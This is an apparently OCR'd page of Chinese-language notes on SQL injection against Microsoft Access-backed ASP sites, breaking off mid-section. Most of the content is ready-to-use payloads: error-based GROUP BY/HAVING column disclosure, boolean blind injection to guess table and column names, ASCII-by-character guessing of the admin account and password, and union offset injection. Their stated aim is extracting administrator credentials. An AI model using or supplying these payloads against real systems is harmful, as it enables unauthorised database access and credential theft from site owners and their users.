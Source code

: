 ```sql
select id,name,address from 表名
?id=25 group by 1 having 1=1(数字型)                 
如果字符型就 'group by 1 having '1'='1'
```
*此时会有报错信息，信息中显示了第一个列名    Microsoft JET Database Engine (0x80040E21) *
* 试图执行的查询中不包含作为合计函数一部分的特定表达式 'id' 。
* 爆出id字段，继续，
```sql
productshow.asp?id=25 group by 1,id having 1=1
```
* 返回错误：
  `Microsoft JET Database Engine (0x80040E21) `
* 试图执行的查询中不包含作为合计函数一部分的特定表达式 'email' 。
  依次类推`productshow.asp?id=25 group by 1,id,email having 1=1`，可以爆出目标表中的所有字段



## Access bool盲注
### （1）使用条件
* 使用`and 1=1`，页面返回正常，输入`and 2=1`时，页面返回错误，存在bool盲注
### （2）猜表名
* 判断所要查的表名是否存在，`and exists（select * from 表名）`，使用字典跑，页面输出正常则，猜中表名，举例表名为admin
### （3）猜列名
* 判断列名是否存在，`and exists （select 列名 from admin）`，使用字典跑，页面输出正常则，猜中列名，举例列名为user
### （4）猜内容
* `and （select top 1 asc（mid（user，1，1））from admin）>100`  将user列中第一个行数据，从第一个字母开始，向后数一个，截取出来，经过ascii码变成数字，通过大于小于某个数，一个一个判断该数据是什么（当联合查询不起作用时使用）
### （5）确定其他表的字段数
* 确定目标表的字段数量
  `?id=1513 and exists(select * from admin order by 6)`     页面返回正常，说明admin有6个字段



## Access逐字猜解法
### （1）判断账户密码的长度
* `and (select len(admin) from admin)=5`  如果返回正常说明管理员账户的长度为5
* `and (select len(password) from admin)=5 ` 猜解管理密码长度是否为5
### （2）猜解管理员账号的第一个数据（通过判断ascii码来判断）
* `and (select top 1 asc(mid(admin,1,1)) from admin)>100` 返回正常说明大于，不正常说明不大于
* `and (select top 1 asc(mid(admin,1,1)) from admin)>50`  返回正常说明大于
* `and (select top 1 asc(mid(admin,1,1)) from admin)=97`  返回正常说明等于97 97对应的字母为a



## 分段偏移注入
### （1）偏移注入
* 首先使用联合查询，猜出含有多少列，`union select 1 from admin，union select 1，2 from admin` 直到页面成功返回
  用\*号从最后一个字段数向前逐个删除来代替，直到显示正常，`union select 1，2，3，4，* from admin，union select 1，2，3，* from admin，union select 1，2，* from admin`    会随机爆出该表中的一些数据
  *局限性：当页面输出信息较少时，不建议使用此方法，由于随机爆出信息，则可能爆不出admin账号和密码*
### （2）分段偏移注入
* 分段偏移注入基本公式：
  联合查询所要补充的字段数 = 当前字段数量 - 目标表的字段数 x N（N=1,2...）（注意：“联合查询所要补充的字段数” 指的是union关键字后面的select查询所需补充的字段数）
  在此处即为：联合查询补充字段数 = 当前字段数量（22） - admin表的字段数（6） x N
  当N=1时我们称为 “1级偏移注入”，当N=2时我们称为 “2级偏移注入”；当N=3时我们称为 “3级偏移注入”，...
* 一级偏移注入：
  根据公式我们可以计算出：联合查询补充字段数 = 22-6x1 = 16
  `?id=1513 union select top 1 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16, * from admin`